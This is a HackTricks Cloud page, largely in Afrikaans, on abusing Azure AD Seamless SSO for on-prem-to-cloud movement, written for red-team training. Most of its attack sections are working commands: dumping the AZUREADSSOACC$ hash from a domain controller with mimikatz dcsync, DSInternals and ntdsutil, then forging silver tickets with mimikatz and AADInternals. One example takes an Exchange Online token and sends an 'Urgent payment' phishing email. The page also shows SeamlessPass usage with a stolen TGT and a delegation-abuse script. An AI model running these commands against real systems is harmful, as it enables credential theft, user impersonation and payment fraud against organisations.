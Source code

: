 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) outomaties **teken gebruikers in wanneer hulle op hul korporatiewe toestelle** gekoppel aan jou korporatiewe netwerk is. Wanneer geaktiveer, **hoef gebruikers nie hul wagwoorde in te tik om in te teken op Azure AD nie**, en gewoonlik, nie eens hul gebruikersname nie. Hierdie funksie bied jou gebruikers maklike toegang tot jou wolk-gebaseerde toepassings sonder om enige addisionele on-premises komponente te benodig.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Basies teken Azure AD Seamless SSO **gebruikers** in wanneer hulle **op 'n on-prem domein-verbonden PC** is.

Dit word ondersteun deur beide [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) en [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO gebruik **Kerberos** vir verifikasie. Wanneer geconfigureer, skep Azure AD Connect 'n **rekenaarrekening genaamd AZUREADSSOACC`$`** in on-prem AD. Die wagwoord van die `AZUREADSSOACC$` rekening word **as plain-text na Azure AD gestuur** tydens die konfigurasie.

Die **Kerberos kaartjies** word **geënkripteer** met die **NTHash (MD4)** van die wagwoord en Azure AD gebruik die gestuurde wagwoord om die kaartjies te ontsleutel.

**Azure AD** stel 'n **eindpunt** (https://autologon.microsoftazuread-sso.com) beskikbaar wat Kerberos **kaartjies** aanvaar. Die blaaier van die domein-verbonden masjien stuur die kaartjies na hierdie eindpunt vir SSO.

### On-prem -> cloud

Die **wagwoord** van die gebruiker **`AZUREADSSOACC$` verander nooit**. Daarom kan 'n domein admin die **hash van hierdie rekening** kompromenteer, en dit dan gebruik om **silwer kaartjies** te skep om met **enige on-prem gebruiker gesinkroniseer** aan Azure te verbind:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Met die hash kan jy nou **silwer kaartjies genereer**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Om die silwer kaartjie te gebruik, moet die volgende stappe uitgevoer word:

1. **Begin die Blaaier:** Mozilla Firefox moet gelaai word.
2. **Konfigureer die Blaaier:**
* Navigeer na **`about:config`**.
* Stel die voorkeur vir [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) na die gespesifiseerde [waardes](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Toegang tot die Webtoepassing:**
* Besoek 'n webtoepassing wat geïntegreer is met die organisasie se AAD-domein. 'n Algemene voorbeeld is [Office 365](https://portal.office.com/).
4. **Verifikasieproses:**
* By die aanmeldskerm moet die gebruikersnaam ingevoer word, terwyl die wagwoordveld leeg gelaat word.
* Om voort te gaan, druk óf TAB óf ENTER.

{% hint style="success" %}
Dit omseil nie MFA as dit geaktiveer is nie
{% endhint %}

#### Opsie 2 sonder dcsync - SeamlessPass

Dit is ook moontlik om hierdie aanval **sonder 'n dcsync-aanval** uit te voer om meer stil te wees, soos [in hierdie blogpos verduidelik](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Hiervoor het jy net een van die volgende nodig:

* **'n Gecompromitteerde gebruiker se TGT:** Selfs al het jy nie een nie, maar die gebruiker was gecompromitteer, kan jy een kry deur die vals TGT-delegasie truuk wat in baie gereedskap soos [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) en [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9) geïmplementeer is.
* **Goue Kaartjie**: As jy die KRBTGT-sleutel het, kan jy die TGT wat jy vir die aangevalde gebruiker nodig het, skep.
* **'n Gecompromitteerde gebruiker se NTLM-hash of AES-sleutel:** SeamlessPass sal met die domeinbeheerder kommunikeer met hierdie inligting om die TGT te genereer.
* **AZUREADSSOACC$ rekening NTLM-hash of AES-sleutel:** Met hierdie inligting en die gebruiker se Veiligheidsidentifiseerder (SID) om aan te val, is dit moontlik om 'n dienskaartjie te skep en met die wolk te verifieer (soos in die vorige metode uitgevoer).

Laastens, met die TGT is dit moontlik om die gereedskap [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) te gebruik met:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Verder inligting om Firefox te stel om met naatlose SSO te werk, kan [**in hierdie blogpos gevind word**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Skep Kerberos-tickets vir slegs-cloud gebruikers~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

As die Active Directory-administrateurs toegang tot Azure AD Connect het, kan hulle **SID vir enige cloud-gebruiker stel**. Op hierdie manier kan Kerberos **tickets** ook **vir slegs-cloud gebruikers geskep word**. Die enigste vereiste is dat die SID 'n behoorlike [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) is.

{% hint style="danger" %}
Die verandering van SID van slegs-cloud administrateurs is nou **geblokkeer deur Microsoft**.\
Vir inligting, kyk [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
{% endhint %}

### On-prem -> Cloud via Hulpbron-gebaseerde Beperkte Afvaardiging <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Enigeen wat rekenaarrekeninge (`AZUREADSSOACC$`) in die houer of OU waarin hierdie rekening is, kan **'n hulpbron-gebaseerde beperkte afvaardiging oor die rekening konfigureer en dit toegang gee**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: Ek is in jou wolk, lees almal se e-posse - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
